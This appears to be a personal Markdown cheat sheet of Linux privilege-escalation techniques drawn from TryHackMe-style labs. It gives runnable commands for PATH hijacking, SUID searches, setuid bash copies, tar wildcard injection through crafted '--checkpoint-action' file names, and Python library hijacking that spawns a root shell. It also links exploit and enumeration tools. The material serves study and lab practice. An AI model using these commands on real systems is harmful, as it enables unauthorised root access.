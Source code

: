 # Manual PrivEsc

1. check passwd and shadow file permissions and try to crate new user with admin privilage using `openssl` or `mkpasswd` in hash.txt file or cracking password

2. exploit `vi` or `vim` editor using :!sh

3. Exploiting Crontab

4. Exploiting PATH Variable
   
   there are an executable file for example test file and when you run this executable file it run a spesific command like "thm" and this execute file "test" you can run it with root privilege "SUID" then find directory that you can read and write on it like /tmp and create file "thm" and `echo /bin/bash >/tmp/thm` and  `chmod 777 thm` and `export PATH=/tmp:$PATH` and run `test` file then you should have root privilage

5. command to search the file system for `SUID/GUID` files
   
   ```bash
   find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
   ```
   
   exim version and search in exploit db

6. Visit [GTFOBins](https://gtfobins.github.io) and search for some of the program names
   
   If the program is listed with `sudo -l` as a function, you can use it to elevate privileges, usually via an escape sequence.

7. crontab
   
   - Check crontab file if there are any thing run and check file permissions
     
     ```bash
     cat /etc/crontab
     ```
   
   - Cron Jobs - PATH Environment Variable
   
   - ```bash
     cp /bin/bash /tmp/rootbash chmod +xs /tmp/rootbash
     ```
   
   - Cron Jobs - Wildcards (*) 
     like this line in `backup.sh` `tar cf /home/milesdyson/backups/backup.tgz *`
     tar or backups
     
     ```bash
     printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
     echo "" > "--checkpoint-action=exec=sh shell.sh"
     echo "" > --checkpoint=1
     /bin/bash -p
     ```
     
     or visit this website
     
      https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/
     
     or this video 
     
     https://youtu.be/HXikLrFVIXc?t=2239

8. Passwords & Keys - History Files

9. Passwords & Keys - Config Files

10. Passwords & Keys - SSH Keys

11. NFS

12. Capabilities
    
    ```bash
    getcap -r / 2>/dev/null
    ```

### PrivEsc wiht Python Library Hijacking

If you have python file, and you can run it as root but the file is read-only

    cat backup.py

```py
import random
import os
import requests

''' 
    any python code
''''
```

Then you can create a file with the name of any library imported in the file and create a python file with its libraray name ex:

    vim random.py

```py
import os
os.system("/usr/bin/bash")
```

Then run the `backup.py` file and it will import your library and run the code inside it

    sudo -u userPerm /usr/bin/python3.7 /home/userProgile/backup.py

### PrivEsc wiht MySQL

1. Use ps aux and show if MySQL service run as root

2. using User-Defined Function the steps in the scripts
   
   https://www.exploit-db.com/exploits/1518
   
   https://tryhackme.com/room/linuxprivesc#

### Using env variable hint (not PATH)

https://tryhackme.com/room/linuxprivesc#

### Automation Tools

1. [LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)

2. [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

3. [linpeas](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)

4. [linPEAS Win](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

5. [linux-exploit-suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)   Assessing kernel exposure on publicly known exploits

